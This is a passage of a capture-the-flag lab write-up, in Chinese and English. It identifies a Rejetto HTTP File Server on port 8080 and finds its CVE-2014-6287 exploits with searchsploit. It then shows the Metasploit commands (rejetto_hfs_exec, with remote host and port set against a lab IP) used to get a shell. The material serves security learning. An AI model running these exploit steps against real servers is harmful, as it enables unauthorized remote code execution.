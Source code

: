 另外一个跑web服务的端口：8080

### Take a look at the other web server. What file server is running?

看一下8080端口，文件服务器：

![image-20240306154658769](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403061546807.png)

Rejetto HTTP File Server

### What is the CVE number to exploit this file server?

```shell
┌──(v4ler1an㉿kali)-[~/Documents/tmp]
└─$ searchsploit rejetto | grep 2.3
Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)                                                                              | windows/webapps/49125.py
Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbitrary File Upload                                                                           | multiple/remote/30850.txt
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remote Command Execution                                                                 | windows/webapps/34852.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (1)                                                                      | windows/remote/34668.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)                                                                      | windows/remote/39161.py

┌──(v4ler1an㉿kali)-[~/Documents/tmp]
└─$ searchsploit -p 39161
  Exploit: Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)
      URL: https://www.exploit-db.com/exploits/39161
     Path: /usr/share/exploitdb/exploits/windows/remote/39161.py
    Codes: CVE-2014-6287, OSVDB-111386
 Verified: True
File Type: Python script, ASCII text executable, with very long lines (540)
```

CVE-2014-6287

### Use Metasploit to get an initial shell. What is the user flag?

使用msf：

```shell
msf6 > search 2014-6287
msf6 > use 0
msf6 exploit(windows/http/rejetto_hfs_exec) > set rhost 10.10.33.145
msf6 exploit(windows/http/rejetto_hfs_exec) > set rport 8080
msf6 exploit(windows/http/rejetto_hfs_exec) > run
```

![image-20240306160639666](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403061606715.png)

